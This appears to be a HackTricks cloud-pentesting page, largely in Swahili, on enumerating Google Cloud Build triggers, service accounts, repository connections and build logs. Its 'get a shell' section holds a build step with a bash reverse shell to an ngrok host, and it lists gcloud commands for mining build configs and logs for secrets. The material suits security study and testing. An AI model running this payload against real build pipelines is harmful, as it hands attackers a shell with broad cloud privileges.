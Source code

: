 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Google Cloud Build ni jukwaa la CI/CD lililosimamiwa ambalo **linatumia mchakato wa kujenga** na kutolewa kwa programu, likijumuisha na **hifadhi za msimbo wa chanzo** na kusaidia lugha mbalimbali za programu. In **aruhusu waendelezaji kujenga, kujaribu, na kutekeleza msimbo kiotomatiki** huku ikitoa uwezekano wa kubadilisha hatua za kujenga na michakato.

Kila Cloud Build Trigger **imehusishwa na Hifadhi ya Cloud au imeunganishwa moja kwa moja na hifadhi ya nje** (Github, Bitbucket na Gitlab).

> [!TIP]
> Sikuweza kuona njia yoyote ya kuiba token ya Github/Bitbucket kutoka hapa au kutoka Hifadhi za Cloud kwa sababu wakati hifadhi inaposhushwa inafikiwa kupitia URL ya [https://source.cloud.google.com/](https://source.cloud.google.com/) na Github haiwezi kufikiwa na mteja.

### Events

Cloud Build inaweza kuanzishwa ikiwa:

- **Push to a branch**: Tafadhali eleza tawi
- **Push a new tag**: Tafadhali eleza lebo
- P**ull request**: Tafadhali eleza tawi linalopokea PR
- **Manual Invocation**
- **Pub/Sub message:** Tafadhali eleza mada
- **Webhook event**: Itatoa URL ya HTTPS na ombi lazima liidhinishwe kwa siri

### Execution

Kuna chaguzi 3:

- A yaml/json **ikiainisha amri** za kutekeleza. Kawaida: `/cloudbuild.yaml`
- Moja tu ambayo inaweza kuainishwa “inline” katika konsoli ya wavuti na katika cli
- Chaguo la kawaida zaidi
- Linalohusiana na ufikiaji usio na uthibitisho
- A **Dockerfile** ya kujenga
- A **Buildpack** ya kujenga

### SA Permissions

**Akaunti ya Huduma ina `cloud-platform` upeo**, hivyo inaweza **kutumia haki zote.** Ikiwa **hakuna SA iliyotajwa** (kama wakati wa kuwasilisha) **SA ya default** `<proj-number>@cloudbuild.gserviceaccount.com` itatumika.

Kwa kawaida hakuna ruhusa zinazotolewa lakini ni rahisi sana kuzitoa:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Approvals

Inawezekana kuunda Cloud Build ili **ihitaji idhini kwa ajili ya utekelezaji wa kujenga** (imezimwa kwa kawaida).

### PR Approvals

Wakati trigger ni PR kwa sababu **mtu yeyote anaweza kufanya PR kwa hifadhi za umma** itakuwa hatari sana tu **kuruhusu utekelezaji wa trigger na PR yoyote**. Kwa hivyo, kwa kawaida, utekelezaji utakuwa **otomatiki kwa wamiliki na washiriki**, na ili kutekeleza trigger na PR za watumiaji wengine mmiliki au mshiriki lazima aweke maoni `/gcbrun`.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Connections & Repositories

Mawasiliano yanaweza kuundwa juu ya:

- **GitHub:** Itatoa ombi la OAuth linaloomba ruhusa za **kupata token ya Github** ambayo itahifadhiwa ndani ya **Meneja wa Siri.**
- **GitHub Enterprise:** Itahitaji kusakinisha **GithubApp**. Token ya **uthibitishaji** kutoka kwa mwenyeji wako wa GitHub Enterprise itaundwa na kuhifadhiwa katika mradi huu kama siri ya **Meneja wa Siri**.
- **GitLab / Enterprise:** Unahitaji **kutoa token ya ufikiaji wa API na token ya ufikiaji wa API ya Kusoma** ambayo itahifadhiwa katika **Meneja wa Siri.**

Mara tu mawasiliano yanapoundwa, unaweza kuyatumia **kuunganisha hifadhi ambazo akaunti ya Github ina ufikiaji**.

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Kumbuka kwamba hifadhi zilizounganishwa kwa njia hii **zinapatikana tu katika Triggers zinazotumia kizazi cha 2.**

### Connect a Repository

Hii si sawa na **`connection`**. Hii inaruhusu **njia tofauti** za kupata **ufikiaji wa hifadhi ya Github au Bitbucket** lakini **haiundui kituo cha muunganisho, lakini inaunda kituo cha hifadhi (cha kizazi cha 1).**

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

Wakati mwingine Cloud Build itaunda **hifadhi mpya kuhifadhi faili za trigger**. Hii inatokea kwa mfano katika mfano ambao GCP inatoa na:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kikasha cha Hifadhi kinachoitwa [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) kimeundwa kuhifadhi `.tgz` yenye faili zitakazotumika.

### Pata shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Sakinisha gcloud ndani ya cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

Unaweza kupata **habari nyeti katika usanifu wa kujenga na kumbukumbu**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Kuinua Haki

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Ufikiaji Usio Na Uthibitisho

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Baada ya Kutekeleza

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
